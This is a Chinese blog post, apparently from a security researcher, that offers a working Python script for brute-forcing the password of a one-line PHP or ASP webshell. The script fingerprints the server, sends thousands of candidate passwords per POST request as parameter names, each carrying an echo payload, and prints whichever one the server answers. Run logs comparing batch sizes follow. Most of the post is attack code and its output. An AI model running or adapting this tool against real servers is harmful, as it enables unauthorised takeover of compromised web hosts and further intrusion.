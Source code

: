 ```yaml
---
layout: post
title: WebShell 一句话密码爆破
comments: false
description: ""
keywords: "Script"
---
```


往往简单的一句话Webshell，在页面中并不显示什么，这里就需要来猜POST的参数值，即密码；

原理和菜刀一样，就是让待爆破的密码做POST参数去执行命令「echo $mima」提取返回内容，只是依据不同服务器不同编程语言有数量区别；

脚本是在江sir师傅的基础上改的，添加了自动识别web服务器（apache，iis）和脚本语言（php，asp），以此来动态选择一次性POST参数的个数；

如果爆破时碰到正确密码，这时即把自己输出，利用requests把返回文本拿出来，即这个shell的密码；

## Python 脚本

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Date    : 2017年1月4日19:11:49
# @Author  : 江sir、老锥
# @Link    : http://www.blogsir.com.cn、https://www.bodkin.ren
# @Version : v1.1

'''
use : python blast.py -u http://192.168.1.103/1.php -d pass.txt
'''

import os
import requests
import argparse
import time

parser = argparse.ArgumentParser()
parser.add_argument('-u')
parser.add_argument('-d')
arg = parser.parse_args()
#print arg

url = arg.u
dic = arg.d

def get_dict(file):
    r = requests.get (url)
    head = r.headers
    # print head
    server = head['Server'].lower()
    print u'web server：' + server
    if 'apache' in server:
        x = 1000
    elif 'iis' in server:
        # x = 5883 #php
        x = 4356 #asp
    else :
        print 'This is nginx web server.'
        x = 1000
    with open(file,'r') as f:
        content = f.readlines()
        dics = len(content) / x
        print u"文件大小：" + str(len(content))
        print u"分成组数：" + str(dics + 1)
        group = []
        for i in content:   # 这样分组实在太帅了，直接使用迭代器 
            group.append(i)
            if len(group) == x:
                yield group
                group = []
        yield group

def blast_php(text):
    n = 0
    for data in text:   
        n += 1
        print u"正在进行 %d 次爆破，长度为 %d" % (n,len(data))
        post_data={}
        for i in data:
            i = i.strip('\n')
            post_data[i] = "echo 'password is %s';" % (i)
        # print post_data
        http = requests.post(url,post_data)
        if http.content:
            print http.content
            break

def blast_asp(text):
    n = 0
    for data in text:   
        n += 1
        print u"正在进行 %d 次爆破，长度为 %d" % (n,len(data))
        post_data={}
        for i in data:
            i = i.strip('\n')
            post_data[i] = """response.write("password is %s")""" % (i) #结尾没;号且字符串使用"双引号
        # print post_data #dic
        http = requests.post(url,post_data)
        if http.content:
            print http.content
            break

if __name__ == '__main__':
    time1 = time.time()
    postfix = url[-4:].lower() #取url后缀判断脚本
    print u'脚本：' + postfix
    text = get_dict(dic)
    if 'php' in postfix : 
        blast_php(text)
        print 'ok php'
    elif 'asp' in postfix :
        blast_asp(text)
        print 'ok asp'
    else :
        print 'This is jsp web.'
    time2 = time.time()
    print str(time2 - time1) + ' s'
```

这里接地气表哥说的在iis下默认同时允许接收最多5883个参数，但我操作了一下发现：

php允许最多不止5883个参数，设置好几万仍没有报错，但时间花销随之比较大；

asp允许最多4356个参数，超过了直接报错；

而且经过操作，发现并不是一次性POST越多的参数，爆破出密码的时间花销就越少；

一次性POST过去50000个参数：

```
脚本：.php
web server：microsoft-iis/6.0
文件大小：391249
分成组数：8
正在进行 1 次爆破，长度为 50000
正在进行 2 次爆破，长度为 50000
正在进行 3 次爆破，长度为 50000
password is fuckfuck
ok php
1.85699987411 s
```

一次性4356个参数：

```
脚本：.php
web server：microsoft-iis/6.0
文件大小：391249
分成组数：90
正在进行 1 次爆破，长度为 4356
正在进行 2 次爆破，长度为 4356
正在进行 3 次爆破，长度为 4356
正在进行 4 次爆破，长度为 4356
正在进行 5 次爆破，长度为 4356
正在进行 6 次爆破，长度为 4356
正在进行 7 次爆破，长度为 4356
正在进行 8 次爆破，长度为 4356
正在进行 9 次爆破，长度为 4356
正在进行 10 次爆破，长度为 4356
正在进行 11 次爆破，长度为 4356
正在进行 12 次爆破，长度为 4356
正在进行 13 次爆破，长度为 4356
正在进行 14 次爆破，长度为 4356
正在进行 15 次爆破，长度为 4356
正在进行 16 次爆破，长度为 4356
正在进行 17 次爆破，长度为 4356
正在进行 18 次爆破，长度为 4356
正在进行 19 次爆破，长度为 4356
正在进行 20 次爆破，长度为 4356
正在进行 21 次爆破，长度为 4356
正在进行 22 次爆破，长度为 4356
正在进行 23 次爆破，长度为 4356
正在进行 24 次爆破，长度为 4356
正在进行 25 次爆破，长度为 4356
正在进行 26 次爆破，长度为 4356
正在进行 27 次爆破，长度为 4356
正在进行 28 次爆破，长度为 4356
正在进行 29 次爆破，长度为 4356
正在进行 30 次爆破，长度为 4356
正在进行 31 次爆破，长度为 4356
正在进行 32 次爆破，长度为 4356
正在进行 33 次爆破，长度为 4356
password is fuckfuck
ok php
1.78200006485 s
```

结果很明显；

## 参考博文：

[https://www.t00ls.net/viewthread.php?tid=36985&extra=&page=1](https://www.t00ls.net/viewthread.php?tid=36985&amp;extra=&amp;page=1)

[http://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=16952&highlight=%E7%88%86%E7%A0%B4](http://bbs.ichunqiu.com/forum.php?mod=viewthread&amp;tid=16952&amp;highlight=%E7%88%86%E7%A0%B4)

[http://www.blogsir.com.cn/safe/269.html](http://www.blogsir.com.cn/safe/269.html)
